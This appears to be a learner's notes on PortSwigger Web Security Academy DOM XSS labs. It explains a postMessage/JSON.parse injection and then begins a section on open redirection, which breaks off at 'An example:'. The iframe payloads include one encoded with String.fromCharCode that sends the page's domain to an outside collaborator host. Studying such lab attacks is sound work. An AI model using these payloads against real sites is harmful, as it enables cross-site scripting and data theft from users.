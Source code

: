 The string contains JSON data. After the string is parsed to the JSON.parse method, it becomes a valid JavaScript object. Attempting to post it to the page may result in a prompt box appearing. An exploit may be:

```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

The iframe loads the vulnerable page and once loaded, it executes the JavaScript:

- `this` - refers to the iframe
- `contentWindow` - refers to the window object
- `postMessage` -  send a web message with the XSS payload to load a malicious `iframe.src` value
- `'*'` - the target origin (specifies what origin of the destination window must be for the event to be dispatched), it does not care about the origin of the recipient.

The double quotes must be escaped to indicate they are part of the string and not to terminate the first double quote used.

The exploitation payload:

```html
<iframe src=https://0ab400b604252be5803512fc002b00ad.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,112,99,53,100,118,116,109,104,100,97,49,122,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))\"}","*")'>
```





























# DOM XSS - Open Redirection

There was a client-side script on the app that is taking in a query parameter called "url" and using the value in a location.href sink. The URL needs to begin with "https://". The JavaScript pseudo-protocol will not work here because you do not have control of the beginning of the href value. This will simply redirect a user to a different website - can be used for phishing.

An example:
